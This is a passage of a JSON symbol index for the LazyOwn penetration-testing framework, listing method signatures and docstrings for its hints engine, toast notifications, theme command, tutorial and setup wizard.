"signature": "def _maybe_auto_show_killchain(self, phase)"}, {"doc": "Return the active theme from payload.json with safe fallback.", "kind": "method", "line": 300, "name": "_resolve_theme", "signature": "def _resolve_theme(self)"}, {"doc": "Wrap all collected suggestion lines into a Rich Panel.\n\nWhen ``_pending_suggestions`` is empty the call is a no-op.\nThe panel uses the active theme's ``border`` color, adds vertical\npadding, and is capped at 120 columns for readability on wide\nterminals.\n\nIn ``minimal`` mode the suggestions are printed as plain text\nwithout the panel wrapper for a lighter visual footprint.", "kind": "method", "line": 311, "name": "_flush_suggestions_panel", "signature": "def _flush_suggestions_panel(self)"}, {"doc": "Return the engine's active hints level from its config.\n\nThe level is the single source of truth for ambient coaching: the\nshell mirrors ``payload.json[\"ui_hints\"]`` into\n:attr:`TipsConfig.hints_level` before each render, so this method\nnever re-reads the payload and every surface agrees on one value.", "kind": "method", "line": 344, "name": "_get_hints_level", "signature": "def _get_hints_level(self)"}, {"doc": "Resolve the current engagement phase with progressive degradation.\n\nPriority: world_model.json > command_index lookup > past phases > fallback.\nNever returns ``recon`` once the operator has advanced beyond it.", "kind": "method", "line": 355, "name": "_resolve_phase", "signature": "def _resolve_phase(self, cmd, fallback)"}, {"doc": "Read the current phase from the unified killchain module.", "kind": "method", "line": 378, "name": "_read_world_model_phase", "signature": "def _read_world_model_phase(self)"}, {"doc": "Read the detected OS identifier from sessions/os.json.\n\nReturns:\n    ``\"1\"`` for Linux, ``\"2\"`` for Windows, ``\"\"`` if unknown.", "kind": "method", "line": 388, "name": "_read_os_id_from_session", "signature": "def _read_os_id_from_session(self)"}, {"doc": "Print a single tip at session start (once per boot).\n\nRegistry tips render as plain text so a trigger-authored message\ncontaining markup brackets can never break the render pass; the\ncurated ``session_tips`` keep their rich markup.\n\nArgs:\n    phase: Current engagement phase.\n    os_id: Detected OS identifier (``\"1\"`` = Linux, ``\"2\"`` = Windows).\n    **ctx: Additional context keys forwarded to tip triggers.", "kind": "method", "line": 408, "name": "render_session_start", "signature": "def render_session_start(self, phase, os_id)"}, {"doc": "Return a read-only snapshot of current engagement state.", "kind": "method", "line": 440, "name": "get_state_snapshot", "signature": "def get_state_snapshot(self)"}, {"doc": "Reset session counters without clearing cross-session progress.", "kind": "method", "line": 455, "name": "reset_session", "signature": "def reset_session(self)"}, {"doc": "Purge non-command entries from persisted ``commands_seen``.", "kind": "method", "line": 460, "name": "heal_commands_seen", "signature": "def heal_commands_seen(self, known)"}, {"kind": "method", "line": 475, "name": "_render_kill_chain_hints", "signature": "def _render_kill_chain_hints(self, cmd, phase)"}, {"doc": "Read ``payload.json`` returning an empty mapping on any failure.\n\nReturns:\n    The parsed payload mapping, or ``{}`` when the file is missing or\n    malformed. Never raises so callers stay non-blocking.", "kind": "method", "line": 492, "name": "_load_payload", "signature": "def _load_payload(self)"}, {"doc": "Return the shared recommendation engine, building it once and caching.\n\nThe fused :class:`cli.recommendation.RecommendationEngine` is stateless\nacross calls, so it is constructed lazily on first use and reused for the\nrest of the session — the graph, policy and recon backends are the\nexpensive part and must not be rebuilt after every command. A build\nfailure caches ``None`` so the evidence path degrades to the static\nbare-name hints without retrying each step.\n\nReturns:\n    The engine instance, or ``None`` when construction failed.", "kind": "method", "line": 505, "name": "_get_rec_engine", "signature": "def _get_rec_engine(self)"}, {"doc": "Return evidence-backed hints for the next step, or an empty list.\n\nFuses every \"what next\" signal via the shared engine and enriches the\ntop results with their justification and confidence. Returns empty when\nevidence hints are disabled, the engine is unavailable, or no signal\nproduces a proposal — in every such case the caller falls back to the\nstatic bare-name hints so behaviour never regresses.\n\nArgs:\n    cmd: The command that just executed (first token).\n    phase: The resolved kill-chain phase.\n\nReturns:\n    A list of :class:`cli.reactive_hints.EvidenceHint`, at most\n    ``config.hints_limit`` long.", "kind": "method", "line": 529, "name": "_compute_evidence_hints", "signature": "def _compute_evidence_hints(self, cmd, phase)"}, {"doc": "Collect a compact kill-chain progress bar into pending suggestions.", "kind": "method", "line": 575, "name": "_collect_killchain_progress", "signature": "def _collect_killchain_progress(self, current_phase)"}, {"doc": "Show the full killchain progress bar after high-impact commands.", "kind": "method", "line": 605, "name": "_maybe_show_full_killchain", "signature": "def _maybe_show_full_killchain(self, cmd)"}, {"kind": "method", "line": 616, "name": "_compute_command_hints", "signature": "def _compute_command_hints(self, cmd, phase)"}, {"kind": "method", "line": 633, "name": "_render_contextual_tip", "signature": "def _render_contextual_tip(self, cmd, phase)"}, {"kind": "method", "line": 672, "name": "_safe_tip_trigger", "signature": "def _safe_tip_trigger(tip, ctx)"}, {"kind": "method", "line": 683, "name": "_run_curiosity_reveal", "signature": "def _run_curiosity_reveal(self, cmd, phase)"}, {"kind": "method", "line": 707, "name": "_commands_in_exploration_phase", "signature": "def _commands_in_exploration_phase(self, phase)"}, {"kind": "method", "line": 713, "name": "_summary_for_exploration_cmd", "signature": "def _summary_for_exploration_cmd(self, cmd)"}, {"kind": "method", "line": 726, "name": "_refresh_autosuggest", "signature": "def _refresh_autosuggest(self, cmd, phase)"}, {"kind": "method", "line": 750, "name": "_render_autosuggest_hint", "signature": "def _render_autosuggest_hint(self, engine)"}, {"kind": "method", "line": 767, "name": "_update_engagement_state", "signature": "def _update_engagement_state(self, cmd, phase)"}, {"kind": "method", "line": 808, "name": "_award_elo", "signature": "def _award_elo(self, cmd, first_time, new_phase, phase)"}, {"kind": "method", "line": 819, "name": "_check_karma_up", "signature": "def _check_karma_up(self)"}, {"doc": "Print one dim horizontal separator line of ``width`` dashes.", "kind": "method", "line": 836, "name": "_print_separator", "signature": "def _print_separator(self, width)"}, {"kind": "method", "line": 840, "name": "_check_badges", "signature": "def _check_badges(self, cmd, first_time)"}, {"kind": "method", "line": 867, "name": "_print_badge", "signature": "def _print_badge(self, name, description)"}, {"kind": "method", "line": 877, "name": "_fire_vri_reward", "signature": "def _fire_vri_reward(self, ctx)"}, {"doc": "Pick one reward by weight, degrading to uniform when weights are void.\n\n``random.choices`` rejects an all-zero weight vector, so a broken\nreward table must never take the whole post-command hook down.\n\nArgs:\n    rewards: The reward entries carrying at least an ``id`` key.\n    weights: Weight per entry, same length as ``rewards``.\n\nReturns:\n    One reward entry.", "kind": "method", "line": 907, "name": "_pick_weighted", "signature": "def _pick_weighted(rewards, weights)"}, {"kind": "method", "line": 926, "name": "_ensure_state_and_index", "signature": "def _ensure_state_and_index(self)"}, {"kind": "method", "line": 932, "name": "_load_state", "signature": "def _load_state(self)"}, {"kind": "method", "line": 952, "name": "_save_state", "signature": "def _save_state(self)"}, {"kind": "method", "line": 977, "name": "_load_command_index", "signature": "def _load_command_index(self)"}, {"kind": "method", "line": 987, "name": "_is_recordable_command", "signature": "def _is_recordable_command(self, cmd)"}, {"kind": "method", "line": 991, "name": "_sanitize_seen", "signature": "def _sanitize_seen(self, names, known)"}, {"kind": "method", "line": 1005, "name": "_read_run_commands", "signature": "def _read_run_commands(self)"}, {"kind": "method", "line": 1010, "name": "_read_recent_commands_for_autosuggest", "signature": "def _read_recent_commands_for_autosuggest(self, limit)"}, {"kind": "method", "line": 1028, "name": "_phase_for_cmd", "signature": "def _phase_for_cmd(self, cmd)"}, {"kind": "method", "line": 1039, "name": "_truncate", "signature": "def _truncate(value, max_len)"}, {"kind": "method", "line": 1045, "name": "_get_karma_name", "signature": "def _get_karma_name(elo)"}, {"kind": "method", "line": 1051, "name": "_next_threshold", "signature": "def _next_threshold(self, current)"}, {"kind": "method", "line": 1055, "name": "_sync_user_elo", "signature": "def _sync_user_elo(self, delta)"}]}, {"doc": "Non-blocking toast notification subsystem for the LazyOwn shell.  After each command the postcmd hook calls :func:`render_toasts` which tails ``sessions/*.jsonl`` event files, deduplicates events the operator has already seen, and prints at most ``toast_max_per_tick`` formatted lines to stdout. Toasts surface daemon decisions, beacon callbacks, collab events, and reactive escalations without forcing the operator into ``poll_events`` or the SSE feed.  Design (SOLID):  - Single Responsibility: :class:`ToastConfig` owns constants, :class:`ToastState` persists the seen offsets, :class:`ToastReader` reads the JSONL files, :class:`ToastFormatter` renders a line, :class:`ToastBus` orchestrates. - Open/Closed: a new event source is one extra entry in :attr:`ToastConfig.event_files`. - Dependency Inversion: every collaborator is supplied to :class:`ToastBus` through the constructor so tests substitute fakes. - No magic numbers / hardcoded paths: every value lives in :class:`ToastConfig` and overrides flow through ``payload.json``.", "id": "cli/toast_bus.py", "kind": "module", "label": "toast_bus.py", "language": "py", "sha256": "1f363ed3eb1c5258", "symbol_count": 49, "symbols": [{"doc": "Centralised constants for the toast subsystem.", "kind": "class", "line": 43, "name": "ToastConfig", "signature": "class ToastConfig"}, {"doc": "Immutable record produced by :class:`ToastReader`.", "kind": "class", "line": 110, "name": "ToastEvent", "signature": "class ToastEvent"}, {"doc": "Persist the last byte offset consumed from each event file.\n\nThe state file lives under ``sessions/.toast_state.json``. The schema\nis intentionally trivial: ``{\"offsets\": {\"events.jsonl\": 4096, ...}}``.\nAtomic writes (tmp + rename) keep the file safe under SIGINT.", "kind": "class", "line": 121, "name": "ToastState", "signature": "class ToastState"}, {"doc": "Read unseen JSONL events from a single file via byte offset.", "kind": "class", "line": 203, "name": "ToastReader", "signature": "class ToastReader"}, {"doc": "Render a :class:`ToastEvent` as a :class:`rich.text.Text` line.", "kind": "class", "line": 330, "name": "ToastFormatter", "signature": "class ToastFormatter"}, {"doc": "Lifecycle façade: collect → format → print.\n\nThe bus is the single class the cmd2 shell calls. Other code depends\nonly on :meth:`render` and :meth:`mark_all_seen`.", "kind": "class", "line": 511, "name": "ToastBus", "signature": "class ToastBus"}, {"kind": "function", "line": 645, "name": "_is_truthy", "signature": "def _is_truthy(value, config, default)"}, {"doc": "Return True when ANSI erase sequences must not be emitted.\n\nArgs:\n    stream: Output stream behind the console.\n\nReturns:\n    True for pipes, dumb terminals, or ``NO_COLOR``.", "kind": "function", "line": 659, "name": "_is_dumb_stream", "signature": "def _is_dumb_stream(stream)"}, {"doc": "Return ``True`` when toast rendering is permitted.", "kind": "function", "line": 679, "name": "toasts_enabled", "signature": "def toasts_enabled(payload, config)"}, {"kind": "function", "line": 687, "name": "_budget", "signature": "def _budget(payload, config)"}, {"doc": "Wire the canonical bus used by the shell postcmd hook.\n\nArgs:\n    payload: Loaded ``payload.json``.\n    sessions_dir: Optional override for the sessions root.\n    console: Optional Rich console (tests inject a captured one).\n\nReturns:\n    A ready-to-use :class:`ToastBus` instance.", "kind": "function", "line": 702, "name": "build_default_bus", "signature": "def build_default_bus(payload, sessions_dir, console)"}, {"doc": "One-shot helper used by the cmd2 postcmd hook.\n\nArgs:\n    payload: Loaded ``payload.json``.\n    sessions_dir: Optional override for the sessions root.\n    console: Optional pre-built Rich console.\n    bus_factory: Optional factory returning a pre-built\n        :class:`ToastBus` (used by tests).\n\nReturns:\n    Number of toast lines printed; ``0`` when disabled or quiet.", "kind": "function", "line": 731, "name": "render_toasts", "signature": "def render_toasts(payload, sessions_dir, console, bus_factory)"}, {"doc": "Return True when toasts must auto-dismiss like sonner.\n\nArgs:\n    payload: Loaded ``payload.json``.\n    config: Optional active configuration.\n\nReturns:\n    Value of the ``toast_ephemeral`` payload flag.", "kind": "function", "line": 755, "name": "ephemeral_enabled", "signature": "def ephemeral_enabled(payload, config)"}, {"doc": "Collect unseen events and print each as an auto-expiring line.\n\nSame read cursor and theme as :func:`render_toasts`; only the\npresentation differs: one sonner-style icon line per event instead of\nthe persistent ascii panel.\n\nArgs:\n    payload: Loaded ``payload.json``.\n    sessions_dir: Optional override for the sessions root.\n    console: Optional pre-built Rich console.\n    duration: Forced seconds per toast, or None for per-level defaults.\n    bus_factory: Optional factory returning a pre-built\n        :class:`ToastBus` (used by tests).\n\nReturns:\n    Number of toasts raised; ``0`` when disabled or quiet.", "kind": "function", "line": 771, "name": "render_ephemeral_toasts", "signature": "def render_ephemeral_toasts(payload, sessions_dir, console, duration, bus_factory)"}, {"doc": "Append one toast event so the existing render hook displays it.\n\nThe emitter lives beside the reader on purpose: the JSONL schema is\nowned by this module, so writing an event anywhere else would let the\ntwo sides drift. The cmd2 postcmd hook picks the line up on the next\ncommand, or immediately via :func:`render_toasts`.\n\nArgs:\n    message: Human-readable one-liner.\n    severity: One of the keys in ``ToastConfig.severity_styles``.\n    event_type: Short label rendered before the message.\n    sessions_dir: Override for the sessions root.\n    config: Optional active configuration.\n\nReturns:\n    True when the event was appended, False on any write failure.", "kind": "function", "line": 801, "name": "emit_toast", "signature": "def emit_toast(message, severity, event_type, sessions_dir, config)"}, {"doc": "Return the most recent toast events without touching read offsets.\n\nThe dashboard is a read-only mirror. If it consumed events through\n:meth:`ToastBus.collect` it would advance the shared\n``sessions/.toast_state.json`` cursor and the cmd2 shell would never\nshow those events. Tailing the file keeps both surfaces independent.\n\nArgs:\n    sessions_dir: Override for the sessions root.\n    limit: Maximum number of events returned, newest last.\n    config: Optional active configuration.\n\nReturns:\n    Up to ``limit`` events, oldest first. Empty when the file is\n    missing or unreadable.", "kind": "function", "line": 846, "name": "read_recent_toasts", "signature": "def read_recent_toasts(sessions_dir, limit, config)"}, {"doc": "Render events with the active theme for any surface.\n\nArgs:\n    events: Events to render.\n    payload: Loaded payload used to resolve the theme.\n    width: Panel width. ``0`` means auto.\n    config: Optional active configuration.\n\nReturns:\n    A Rich renderable, or ``None`` when there is nothing to show.", "kind": "function", "line": 890, "name": "build_toast_renderable", "signature": "def build_toast_renderable(events, payload, width, config)"}, {"doc": "Bind to config and resolve the on-disk state path.\n\nArgs:\n    config: Active toast configuration.\n    root: Optional override for the sessions root directory.", "kind": "method", "line": 129, "name": "__init__", "signature": "def __init__(self, config, root)"}, {"doc": "Return the resolved state-file path.", "kind": "method", "line": 144, "name": "path", "signature": "def path(self)"}, {"doc": "Return the persisted offset for ``name`` or 0.", "kind": "method", "line": 148, "name": "get", "signature": "def get(self, name)"}, {"doc": "Record ``offset`` for ``name`` in memory.", "kind": "method", "line": 153, "name": "set", "signature": "def set(self, name, offset)"}, {"doc": "Forget every persisted offset (force replay on next read).", "kind": "method", "line": 159, "name": "reset", "signature": "def reset(self)"}, {"doc": "Persist the current offsets atomically.\n\nReturns:\n    ``True`` on success, ``False`` when the filesystem rejects the\n    write (read-only mount, missing parent, etc.).", "kind": "method", "line": 164, "name": "flush", "signature": "def flush(self)"}, {"kind": "method", "line": 182, "name": "_ensure_loaded", "signature": "def _ensure_loaded(self)"}, {"doc": "Bind to config and resolve the events root directory.\n\nArgs:\n    config: Active configuration.\n    root: Optional override for the sessions root directory.", "kind": "method", "line": 206, "name": "__init__", "signature": "def __init__(self, config, root)"}, {"doc": "Return the resolved events root directory.", "kind": "method", "line": 217, "name": "root", "signature": "def root(self)"}, {"doc": "Return events emitted past ``start_offset`` plus the new end offset.\n\nArgs:\n    name: Filename relative to the sessions root.\n    start_offset: Last persisted byte offset for this file.\n\nReturns:\n    ``(events, end_offset)``. ``events`` is empty when the file is\n    missing, truncated, or already consumed. ``end_offset`` matches\n    the file size at the moment of read.", "kind": "method", "line": 221, "name": "read_unseen", "signature": "def read_unseen(self, name, start_offset)"}, {"kind": "method", "line": 252, "name": "_parse", "signature": "def _parse(self, text, source, base_offset)"}, {"kind": "method", "line": 267, "name": "_build_event", "signature": "def _build_event(self, line, source, offset)"}, {"kind": "method", "line": 290, "name": "_coerce_str", "signature": "def _coerce_str(value)"}, {"kind": "method", "line": 298, "name": "_summary", "signature": "def _summary(record)"}, {"doc": "Bind to config and the active theme.", "kind": "method", "line": 333, "name": "__init__", "signature": "def __init__(self, config, theme)"}, {"doc": "Return a single themed line for ``event``.", "kind": "method", "line": 338, "name": "format", "signature": "def format(self, event)"}, {"doc": "Return True when an event deserves a full toastr panel.\n\nHigh-severity events and completion summaries are never squeezed\ninto a truncated line: they render with their complete text.", "kind": "method", "line": 350, "name": "is_prominent", "signature": "def is_prominent(self, event)"}, {"doc": "Render an event as a toastr panel with the complete summary.", "kind": "method", "line": 360, "name": "format_prominent", "signature": "def format_prominent(self, event)"}, {"doc": "Return a single sonner-style line with severity icon for ``event``.\n\nReuses the severity-to-role table and the active theme, so the\nephemeral line never drifts from the persistent panel palette.\nLAZY renders ``toast.success / error / warning / info`` with one\nglyph each; this is the terminal equivalent without the ascii box.\n\nArgs:\n    event: Toast event to render.\n\nReturns:\n    One themed Rich Text line.", "kind": "method", "line": 377, "name": "format_ephemeral", "signature": "def format_ephemeral(self, event)"}, {"doc": "Return the auto-dismiss delay in seconds for ``event``.\n\nReuses the per-severity duration table from the config, mirroring\nthe sonner ``duration`` option per toast level. ``0`` means sticky.\n\nArgs:\n    event: Toast event to time.\n\nReturns:\n    Seconds before the line is erased, ``0`` for sticky.", "kind": "method", "line": 405, "name": "duration_for", "signature": "def duration_for(self, event)"}, {"doc": "Summarise over-budget events so none vanish silently.", "kind": "method", "line": 430, "name": "digest_line", "signature": "def digest_line(dropped)"}, {"doc": "Render several events as one Rich renderable.\n\nThis is the shared presentation contract. The cmd2 shell prints the\nresult through a Console; the Textual dashboard embeds the very same\nrenderable in a widget. One formatter, two surfaces, no drift.\n\nProminent events (high severity, completion summaries) render as\nindividual toastr panels with full text. Remaining lines share the\nper-tick budget; over-budget ones collapse into a digest line so\nno unseen notification disappears silently.\n\nArgs:\n    events: Events to render, oldest first.\n    width: Panel width. ``0`` means auto-clamp to the console width.\n\nReturns:\n    A ``Panel``/``Group`` for several items, a single ``Text``\n    line for one plain event, or ``None`` when empty.", "kind": "method", "line": 438, "name": "format_many", "signature": "def format_many(self, events, width)"}, {"doc": "Return a sane console width when the caller passes none.", "kind": "method", "line": 492, "name": "_console_width", "signature": "def _console_width(self)"}, {"kind": "method", "line": 499, "name": "_role_for", "signature": "def _role_for(self, severity)"}, {"kind": "method", "line": 505, "name": "_truncate", "signature": "def _truncate(self, value)"}, {"doc": "Bind every collaborator.", "kind": "method", "line": 518, "name": "__init__", "signature": "def __init__(self, config, state, reader, formatter, console)"}, {"doc": "Return every unseen event across :attr:`ToastConfig.event_files`.", "kind": "method", "line": 533, "name": "collect", "signature": "def collect(self)"}, {"doc": "Collect, render and persist offsets in a single call.\n\nWhen multiple toasts arrive in one tick they are wrapped in a\nRich Panel with the theme's ``warning`` border so the operator\ncan visually separate them from command output. A single toast\nrenders as a plain line to avoid unnecessary visual weight.\n\nArgs:\n    enabled: When ``False`` the call is a no-op and returns 0.\n\nReturns:\n    The number of toast lines actually printed.", "kind": "method", "line": 545, "name": "render", "signature": "def render(self, enabled)"}, {"doc": "Advance the offset for every configured file to its current size.", "kind": "method", "line": 574, "name": "mark_all_seen", "signature": "def mark_all_seen(self)"}, {"doc": "Collect unseen events and print each as an auto-expiring line.\n\nThis is the sonner port: one themed icon line per event that is\nerased after its per-severity delay when the output is an\ninteractive TTY. On pipes or dumb terminals the lines stay printed\nso logs never lose the event. Offsets persist exactly like\n:meth:`render`, so both paths share the same read cursor.\n\nArgs:\n    enabled: When ``False`` the call is a no-op and returns 0.\n    duration: Forced seconds per toast, or None for per-level\n        defaults from the config. ``0`` means sticky.\n\nReturns:\n    The number of toasts raised.", "kind": "method", "line": 581, "name": "render_ephemeral", "signature": "def render_ephemeral(self, enabled, duration)"}, {"doc": "Erase the last printed line after ``delay`` on interactive TTYs.\n\nArgs:\n    delay: Seconds before erasing. ``0`` or less means sticky.", "kind": "method", "line": 614, "name": "_schedule_erase", "signature": "def _schedule_erase(self, delay)"}, {"doc": "Move the cursor up and clear ``rows`` lines.\n\nArgs:\n    stream: Output stream behind the console.\n    rows: Terminal rows to erase.", "kind": "method", "line": 630, "name": "_erase_lines", "signature": "def _erase_lines(stream, rows)"}]}, {"doc": "Operator-facing ``tui_theme`` command logic.  The cmd2 ``do_tui_theme`` method in ``lazyown.py`` delegates to :func:`run` here. Keeping the logic out of the shell makes it trivially testable: pass a payload dict, a payload-saver callable, and a sys.argv-style argument list, get back a human-readable result string and a side effect on the payload.  Usage from the shell:  tui_theme                    # list all themes, mark current tui_theme gruvbox            # switch active theme tui_theme cycle              # next theme in deterministic order tui_theme prev               # previous theme tui_theme reset              # fall back to default  The command is intentionally idempotent and never raises -- any invalid input is reported to the operator without mutating state.", "id": "cli/tui_theme.py", "kind": "module", "label": "tui_theme.py", "language": "py", "sha256": "bdeba26eeddd59df", "symbol_count": 4, "symbols": [{"doc": "Persist ``name`` into ``payload[\"tui_theme\"]`` after validation.\n\nArgs:\n    payload: Mapping mutated in place. The ``tui_theme`` key is\n        set to the canonical lowercase theme name.\n    name: Requested theme name. Unknown names are silently\n        coerced to :data:`cli.themes.DEFAULT_THEME_NAME` so\n        ``tui_theme bogus`` cannot leave the operator without a\n        usable theme.", "kind": "function", "line": 30, "name": "_set_theme", "signature": "def _set_theme(payload, name)"}, {"doc": "Render the theme table shown by ``tui_theme`` with no args.\n\nArgs:\n    current: Name of the active theme. The matching row is\n        flagged with a marker so the operator knows the state.\n\nReturns:\n    Multi-line text block ready to print.", "kind": "function", "line": 45, "name": "_format_listing", "signature": "def _format_listing(current)"}, {"doc": "Advance the active theme by one slot in :data:`THEME_ORDER`.\n\nArgs:\n    payload: Mapping mutated in place with the new theme name.\n    direction: ``+1`` for next, ``-1`` for previous. Any other\n        value is treated as ``+1``.\n\nReturns:\n    Single-line confirmation of the new active theme.", "kind": "function", "line": 65, "name": "_cycle", "signature": "def _cycle(payload, direction)"}, {"doc": "Execute the ``tui_theme`` command.\n\nArgs:\n    args: Argument list (excluding the verb itself). Empty list\n        lists themes; one positional argument switches or moves\n        the active theme; ``reset`` clears back to default.\n    payload: Live payload mapping. Mutated in place on theme\n        changes; the operator's selection persists across shell\n        restarts because :func:`save` writes the JSON.\n    save: Callable invoked after every mutation so the on-disk\n        ``payload.json`` matches the in-memory state. The shell\n        binds this to the existing payload writer; tests pass a\n        no-op recorder.\n\nReturns:\n    Human-readable result string. Always a single block of text\n    suitable for direct printing.", "kind": "function", "line": 87, "name": "run", "signature": "def run(args, payload, save)"}]}, {"doc": "Interactive post-install tutorial for the LazyOwn framework.  Guides a new operator through the golden path: ping -> lazynmap -> auto_populate -> facts_show -> recommend_next  Each step explains what happens, shows the output, and suggests the next action.  Persists completion in ``sessions/tutorial_done`` so it does not repeat on subsequent launches.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``run`` receives a ``params`` dict and a ``command_runner`` callable so tests can stub execution without touching the shell.", "id": "cli/tutorial.py", "kind": "module", "label": "tutorial.py", "language": "py", "sha256": "e33988ebc00e2aa0", "symbol_count": 7, "symbols": [{"doc": "Centralised constants for the tutorial.", "kind": "class", "line": 76, "name": "TutorialConfig", "signature": "class TutorialConfig"}, {"doc": "Return True if the tutorial has already been completed.", "kind": "function", "line": 83, "name": "is_done", "signature": "def is_done(config)"}, {"doc": "Persist the tutorial completion marker.", "kind": "function", "line": 89, "name": "mark_done", "signature": "def mark_done(config)"}, {"doc": "Print the tutorial welcome banner.", "kind": "function", "line": 96, "name": "render_header", "signature": "def render_header()"}, {"doc": "Print the full phase overview before starting.", "kind": "function", "line": 113, "name": "render_phase_table", "signature": "def render_phase_table()"}, {"doc": "Execute one tutorial step and return True if the user wants to continue.\n\nArgs:\n    index: 1-based step number.\n    command: The command verb to execute.\n    description: One-line explanation of the command.\n    why: Why this step matters.\n    params: Live payload params dict.\n    command_runner: Callable that executes a LazyOwn shell command and\n        returns its output string.\n\nReturns:\n    True if the user pressed Enter to continue, False if they typed skip.", "kind": "function", "line": 128, "name": "run_step", "signature": "def run_step(index, command, description, why, params, command_runner)"}, {"doc": "Run the interactive tutorial.\n\nArgs:\n    params: Live params dict (in-memory mirror of payload.json).\n    command_runner: Callable that executes a LazyOwn shell command string.\n    force: When True, re-run even if already completed.\n    config: Optional config override.\n\nReturns:\n    True if the tutorial completed, False if skipped or already done.", "kind": "function", "line": 185, "name": "run", "signature": "def run(params, command_runner)"}]}, {"doc": "Guided first-run setup wizard for the LazyOwn framework.  Walks the operator through the minimum viable configuration: rhost, lhost, domain, device, os_id, api_key, wordlist paths.  Auto-detects sensible defaults (lhost from routing table, device from ip route, SecLists paths on disk) so experts can just press Enter while novices get clear explanations of every value.  Design contract: - Zero imports from lazyown.py or lazyc2.py (Dependency Inversion). - The ``run`` function takes a ``params`` dict and a ``save`` callable; it never touches payload.json directly. - All output goes through rich so colours work on all terminals. - Ctrl-C at any prompt exits the wizard cleanly without saving partial state.", "id": "cli/wizard.py", "kind": "module", "label": "wizard.py", "language": "py", "sha256": "8826f79421747fa1", "symbol_count": 45, "symbols": [{"doc": "Declarative description of an external tool the framework relies on.\n\nThe wizard verifies presence only — it never executes the binary so a\nmalicious shadow ``PATH`` entry cannot be triggered by the readiness\ncheck itself.\n\nAttributes:\n    name: Executable name as it should appear on ``PATH``. Must\n        satisfy :data:`_BINARY_NAME_RE` so logging is safe and the\n        value cannot inject shell metacharacters.\n    category: Human-readable group used to bucket the report\n        (recon, web, smb, ad, exploit, c2).\n    purpose: One-line description of why LazyOwn needs the tool.\n    install_hint: Operator-facing install command shown when the\n        binary is missing. Static string — never interpolated.", "kind": "class", "line": 90, "name": "BinarySpec", "signature": "class BinarySpec"}, {"doc": "Result of a presence check for a single :class:`BinarySpec`.", "kind": "class", "line": 141, "name": "BinaryStatus", "signature": "class BinaryStatus"}, {"doc": "One line in the readiness summary table.", "kind": "class", "line": 150, "name": "ReadinessItem", "signature": "class ReadinessItem"}, {"doc": "Outcome returned by :func:`run`.", "kind": "class", "line": 160, "name": "WizardResult", "signature": "class WizardResult"}, {"doc": "Run the interactive setup wizard and return a :class:`WizardResult`.\n\nArgs:\n    params: Live params dict (in-memory mirror of payload.json).\n    save: Callback to persist a single key/value pair.  Signature:\n          ``save(key: str, value: Any) -> None``.  Called only for\n          values the operator explicitly accepted.\n    tutorial: When ``True`` each step prints the extended help from\n        :data:`core.payload_schema.SCHEMA` so first-time operators\n        understand *why* each value matters. Veterans omit this and\n        just see the auto-detected defaults.\n\nReturns:\n    WizardResult with ``saved=True`` when at least one value was written.", "kind": "function", "line": 169, "name": "run", "signature": "def run(params, save)"}, {"doc": "Apply configuration without prompts — Docker/CI/headless first runs.\n\nArgs:\n    params: Live params dict (in-memory mirror of payload.json).\n    save: Persistence callback, same contract as :func:`run`.\n    values: Keys to apply (``rhost``, ``lhost``, ``domain``, ``device``,\n        ``os_id``, ``api_key``). ``None`` values are ignored.\n    auto_detect: When ``True`` (default), fill still-empty ``lhost`` /\n        ``device`` from the routing table and wordlist paths from\n        SecLists, mirroring the interactive wizard's detected defaults.\n\nReturns:\n    WizardResult with ``saved=True`` when at least one value was written.", "kind": "function", "line": 234, "name": "run_non_interactive", "signature": "def run_non_interactive(params, save, values)"}, {"doc": "Replace factory-default C2 credentials with generated values.\n\nThe example payload ships ``CHANGE_ME`` placeholders; leaving them in\nplace means the C2 web console starts with publicly known credentials.\nWhen the wizard runs, any ``c2_user``/``c2_pass`` still holding a\ndefault marker is rotated: the user becomes ``admin`` and the password\na random URL-safe token. Weak but explicitly chosen values (``admin``,\n``password``...) are warned about, never silently replaced.\n\nArgs:\n    params: Live params dict, mutated in place on rotation.\n    save: Persistence callback, same contract as :func:`run`.\n\nReturns:\n    List of ``(key, new_value)`` pairs that were rotated.", "kind": "function", "line": 300, "name": "_rotate_default_secrets", "signature": "def _rotate_default_secrets(params, save)"}, {"doc": "Tell the operator which credentials were auto-rotated and why.", "kind": "function", "line": 348, "name": "_print_secret_rotation", "signature": "def _print_secret_rotation(rotated)"}, {"kind": "function", "line": 364, "name": "_print_header", "signature": "def _print_header()"}, {"doc": "Print a short glossary so novices understand the recurring terms.", "kind": "function", "line": 379, "name": "_print_glossary_panel", "signature": "def _print_glossary_panel()"}, {"doc": "Return the schema's long_help for ``key`` when it exists.", "kind": "function", "line": 404, "name": "_spec_long_help", "signature": "def _spec_long_help(key)"}, {"kind": "function", "line": 412, "name": "_print_long_help", "signature": "def _print_long_help(key)"}, {"kind": "function", "line": 419, "name": "_collect_values", "signature": "def _collect_values(params)"}, {"kind": "function", "line": 457, "name": "_ask_rhost", "signature": "def _ask_rhost(current)"}, {"kind": "function", "line": 484, "name": "_ask_lhost", "signature": "def _ask_lhost(current)"}, {"kind": "function", "line": 515, "name": "_ask_domain", "signature": "def _ask_domain(current)"}, {"kind": "function", "line": 537, "name": "_ask_device", "signature": "def _ask_device(current)"}, {"kind": "function", "line": 563, "name": "_ask_os_id", "signature": "def _ask_os_id(current)"}, {"doc": "Map a wizard answer to a backend id, or None when blank/invalid.\n\nArgs:\n    raw: Raw operator input (provider name or menu number).\n\nReturns:\n    Backend identifier, or None when the input is blank or invalid.", "kind": "function", "line": 585, "name": "_normalize_provider_answer", "signature": "def _normalize_provider_answer(raw)"}, {"doc": "Mask a secret for display, keeping only the last four characters.\n\nArgs:\n    value: Secret value or None.\n\nReturns:\n    Masked representation, or \"not set\" when empty.", "kind": "function", "line": 606, "name": "_mask_secret", "signature": "def _mask_secret(value)"}, {"doc": "Run the provider-agnostic LLM setup step and return payload updates.\n\nArgs:\n    params: Live params dict (in-memory mirror of payload.json).\n    tutorial: Whether to show extended help.\n\nReturns:\n    Dict with llm_backend, the provider model slot, and the provider\n    key slot when the operator changed them.", "kind": "function", "line": 621, "name": "_ask_llm", "signature": "def _ask_llm(params)"}, {"kind": "function", "line": 692, "name": "_ask_wordlists", "signature": "def _ask_wordlists(params)"}, {"doc": "Prompt the operator to register or log in, then optionally configure marketplace.\n\nArgs:\n    params: Live params dict.\n    tutorial: Whether to show extended help.\n\nReturns:\n    Dict with cli_auto_login / cli_remember_token if saved.", "kind": "function", "line": 724, "name": "_ask_operator_login", "signature": "def _ask_operator_login(params)"}, {"doc": "Handle the login path in the wizard.\n\nReturns:\n    Tuple of (username, password) or (None, None) on skip.", "kind": 